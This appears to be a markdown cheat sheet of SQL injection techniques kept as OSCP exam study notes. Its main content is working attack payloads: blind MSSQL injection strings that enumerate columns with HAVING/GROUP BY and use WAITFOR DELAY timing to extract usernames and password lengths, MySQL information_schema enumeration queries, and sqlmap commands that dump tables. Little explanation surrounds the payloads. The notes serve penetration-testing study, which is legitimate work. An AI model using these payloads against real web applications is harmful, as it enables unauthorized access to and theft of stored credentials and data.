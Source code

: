 ### :open_file_folder: References

- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


